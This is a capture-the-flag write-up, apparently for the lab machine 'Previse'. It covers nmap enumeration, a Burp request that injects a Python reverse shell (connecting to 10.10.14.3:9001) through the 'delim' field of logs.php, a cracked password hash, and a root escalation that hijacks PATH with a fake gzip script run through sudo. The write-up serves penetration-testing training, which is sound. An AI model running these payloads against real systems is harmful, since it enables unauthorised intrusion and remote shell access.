

```
                   --
    ____ _ __  __ / /_ ____   ___   ____   __  __ ____ ___
   / __ `// / / // __// __ \ / _ \ / __ \ / / / // __ `__ \
  / /_/ // /_/ // /_ / /_/ //  __// / / // /_/ // / / / / /
  \__,_/ \__,_/ \__/ \____/ \___//_/ /_/ \__,_//_/ /_/ /_/

Author: Grimmie
Version: 3.0.1

Enter a target IP or hostname
Autoenum > 10.10.11.104
[+] IP set to 10.10.11.104

General Commands:
[*] ping
[*] help
[*] banner
[*] clear
[*] reset
[*] commands
[*] shell
[*] upgrade
[*] set target
[*] exit

Scan Profiles:
[~] Main:
[*] aggr
[*] reg
[*] top 1k
[*] top 10k
[*] aggr+vuln
[*] reg+vuln
[*] top 1k+vuln
[*] top 10k+vuln
[*] udp

[~] Auxiliary:
[*] vuln
[*] quick

Autoenum(10.10.11.104) > vuln
[~] SCAN MODE: vuln

[+] Checking for base dirs...
[+] Done!
Starting Nmap 7.80 ( https://nmap.org ) at 2021-08-12 13:10 IST
Nmap scan report for 10.10.11.104
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.47 seconds
Starting Nmap 7.80 ( https://nmap.org ) at 2021-08-12 13:10 IST
Nmap scan report for 10.10.11.104
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
80/tcp open  http
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|       httponly flag not set
|   /login.php:
|     PHPSESSID:
|_      httponly flag not set
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.11.104
|   Found the following possible CSRF vulnerabilities:
|
|     Path: http://10.10.11.104:80/
|     Form id:
|     Form action: login.php
|
|     Path: http://10.10.11.104:80/login.php
|     Form id:
|_    Form action: login.php
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /login.php: Possible admin folder
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /js/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
| http-fileupload-exploiter:
|
|     Couldn't find a file-type field.
|
|_    Couldn't find a file-type field.
| http-sql-injection:
|   Possible sqli for queries:
|     http://10.10.11.104:80/js/e.src+(w(e.src,%22?player_id=%22%2bo%29%7d%29.then%28function%28%29%7breturn%27%20OR%20sqlspider&%22%3a%22%3f%22%29%2b%28i%3f%22enablejsapi=1%22%3a%22api%3d1&%22%29%3f%22=
|     http://10.10.11.104:80/js/e.src+(w(e.src,%22?player_id=%22%2bo%29%7d%29.then%28function%28%29%7breturn&%22%3a%22%3f%22%29%2b%28i%3f%22enablejsapi=1%22%3a%22api%3d1%27%20OR%20sqlspider&%22%29%3f%22=
|     http://10.10.11.104:80/js/e.src+(w(e.src,%22?player_id=%22%2bo%29%7d%29.then%28function%28%29%7breturn&%22%3a%22%3f%22%29%2b%28i%3f%22enablejsapi=1%22%3a%22api%3d1&%22%29%3f%22=%27%20OR%20sqlspider
|     http://10.10.11.104:80/js/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.104:80/js/?C=S%3bO%3dA%27%20OR%20sqlspider
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.

Nmap done: 1 IP address (1 host up) scanned in 50.15 seconds
```


I found that index.php is being deflected to **login.php**.
Therefore I curled it to see what's actually there.
```
curl -v http://10.10.11.104/
```
```HTML
<!DOCTYPE html>
<html>
    <head>
        <meta http-equiv="content-type" content="text/html; charset=UTF-8" />
        <meta charset="utf-8" />


        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta name="description" content="Previse rocks your socks." />
        <meta name="author" content="m4lwhere" />
        <link rel="shortcut icon" href="/favicon.ico" type="image/x-icon" />
        <link rel="icon" href="/favicon.ico" type="image/x-icon" />
        <link rel="apple-touch-icon" sizes="180x180" href="/apple-touch-icon.png">
        <link rel="icon" type="image/png" sizes="32x32" href="/favicon-32x32.png">
        <link rel="icon" type="image/png" sizes="16x16" href="/favicon-16x16.png">
        <link rel="manifest" href="/site.webmanifest">
        <link rel="stylesheet" href="css/uikit.min.css" />
        <script src="js/uikit.min.js"></script>
        <script src="js/uikit-icons.min.js"></script>


<title>Previse Home</title>
</head>
<body>

<nav class="uk-navbar-container" uk-navbar>
    <div class="uk-navbar-center">
        <ul class="uk-navbar-nav">
            <li class="uk-active"><a href="/index.php">Home</a></li>
            <li>
                <a href="accounts.php">ACCOUNTS</a>
                <div class="uk-navbar-dropdown">
                    <ul class="uk-nav uk-navbar-dropdown-nav">
                        <li><a href="accounts.php">CREATE ACCOUNT</a></li>
                    </ul>
                </div>
            </li>
            <li><a href="files.php">FILES</a></li>
            <li>
                <a href="status.php">MANAGEMENT MENU</a>
                <div class="uk-navbar-dropdown">
                    <ul class="uk-nav uk-navbar-dropdown-nav">
                        <li><a href="status.php">WEBSITE STATUS</a></li>
                        <li><a href="file_logs.php">LOG DATA</a></li>
                    </ul>
                </div>
            </li>
            <li><a href="#" class=".uk-text-uppercase"></span></a></li>
            <li>
                <a href="logout.php">
                    <button class="uk-button uk-button-default uk-button-small">LOG OUT</button>
                </a>
            </li>
        </ul>
    </div>
</nav>

    <section class="uk-section uk-section-default">
        <div class="uk-container">
            <h2 class="uk-heading-divider">Previse File Hosting</h2>
            <p>Previse File Hosting Service Management.</p>
            <p>Don't have an account? Create one!</p>
        </div>
    </section>

<div class="uk-position-bottom-center uk-padding-small">
        <a href="https://m4lwhere.org/" target="_blank"><button class="uk-button uk-button-text uk-text-small">Created by m4lwhere</button></a>
</div>
</body>
</html>

```


So therefore I again curl'd to **accounts.php**

Regsitered Using burp-suite repeater


```request
POST /logs.php HTTP/1.1
Host: 10.10.11.104
Content-Length: 251
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.104
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.11.104/file_logs.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=e37qmamvn5dru7cfc80fugki5p
Connection: close

delim=comma;export+RHOST%3d"10.10.14.3"%3bexport+RPORT%3d9001%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("/bin/bash")'

```


user:m4lwhere
password-hash:$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.

**carefull** 
≡ƒºé=🧂
converting the characters while in terminal and mysql, it loses its identity.
password-hash:$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.

Using john-the-ripper


password:ilovecody112235!



```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

We will use path injection.


```bash
export PATH=.:$PATH
```
```
OUTPUT:.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Now we will create our own gzip in /tmp

write a rev shell with rhost=attacking machine, and save it as gzip in tmp and start a nc listener on attacking machine.

and then while being in /tmp execute the script using sudo

Your listener gets a shell. You got root
